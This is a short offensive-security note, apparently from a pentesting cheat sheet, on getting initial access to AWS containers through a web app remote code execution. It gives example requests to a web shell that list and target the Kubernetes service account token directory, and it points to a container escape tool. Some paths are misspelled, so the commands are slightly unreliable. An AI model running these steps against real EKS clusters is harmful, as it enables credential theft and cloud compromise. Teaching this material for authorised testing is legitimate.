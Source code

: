 # AWS Containers initial access

### The initial access can be done by exploiting some RCE in webapp to get access to the container, afterwards its possible to compromise the EC2.

### After the RCE, we can list all secrets in EKS

 - https://website.com?rce.php?cmd=ls /var/run/secrets/kubernets.io/serviceaccount

### Getting the secret information from EKS

 - https://website.com?rce.php?cmd=ls /var/run/secrets/kubernets.io/serviceaccount/token

## TIP: It's also possible to do sandbox escaping (Tool: deepce https://github.com/stealthcopter/deepce)
